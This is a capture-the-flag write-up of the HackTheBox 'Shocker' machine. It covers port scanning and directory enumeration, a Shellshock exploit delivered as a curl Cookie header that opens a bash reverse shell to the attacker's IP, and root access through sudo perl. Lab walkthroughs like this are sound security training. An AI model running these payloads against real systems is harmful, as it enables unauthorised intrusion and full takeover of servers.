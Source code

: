 ```yaml
---
title: "HackTheBox — Shocker Writeup"
date: 2020-10-27 16:28:00 +0530
categories: [HackTheBox,Linux Machine]
tags: [inprogress]
image: /assets/img/Posts/Shocker.png
---
```


> Shocker executive summary goes here ... to-do

## Task Overview

- Task in progress

## Reconnaissance

Starting with an `masscan` and `nmap` to find the open ports and services on `10.10.10.56`:

```shell
# sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.56

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-10-27 07:52:29 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 2222/tcp on 10.10.10.56                                   
Discovered open port 80/tcp on 10.10.10.56                                     
^Cwaiting several seconds to exit...   

```
```shell

$ nmap -sC -sV -p80,2222 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 16:02 AWST
Nmap scan report for 10.10.10.56
Host is up (0.26s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.02 seconds

```
### Webpage (Port 80)

![webpage](/assets/img/Posts/Shocker/port80.png)

Website doesn't have anything of interest to me at the moment.

Lets run a `gobuster`:

``` shell
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/ -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/27 16:10:12 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
===============================================================
2020/10/27 16:12:01 Finished
===============================================================
```


Intesting, we have a `/cig-bin/` directory. This can be utilised by admins to upload scripts that can be executed. Lets enumerate the folder for any scripts.


``` shell

# gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x py,sh,php,js -t 50


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     py,sh,php,js
[+] Timeout:        10s
===============================================================
2020/10/27 16:15:23 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.py (Status: 403)
/.hta.sh (Status: 403)
/.hta.php (Status: 403)
/.hta.js (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.py (Status: 403)
/.htpasswd.sh (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.js (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.js (Status: 403)
/.htaccess.py (Status: 403)
/user.sh (Status: 200)


```

Lets see what `/cgi-bin/user.sh` does, noting the `Status: 200`:

``` shell
$ curl http:/10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 04:27:22 up 28 min,  0 users,  load average: 0.08, 0.05, 0.01

```


Okay, as this is an easy box, we can assume (given the machine name) that shellshock is a good option to try

``` shell

$ curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.3/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh

```

Listening with `nc` on port `4443` we catch the reverse shell:

``` shell

$ nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.56] 45950
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ 


```

Lets enumerate user and find the user flag:

``` shell

shelly@Shocker:/usr$ whoami
whoami
shelly
shelly@Shocker:/usr$ wc -c /home/shelly/user.txt
wc -c /home/shelly/user.txt
33 /home/shelly/user.txt
shelly@Shocker:/usr$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
2ec24e11320026d1e70ff3e16695b233
shelly@Shocker:/usr$ 

```

## Privilege Escalation 

Now with an easy box, first command that is always good is `sudo -l` to see where we can run `sudo` without giving a password.

``` shell

$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl


```

And we notice that perl infact has this configuration! Therefore we can use perl to spawn us a new elevated shell.


``` shell

$ sudo perl -e 'exec "/bin/bash"'
sudo perl -e 'exec "/bin/bash"'
whoami
root
wc -c /root/root.txt
33 /root/root.txt
cat /root/root.txt

```

Thanks for reading. BQ
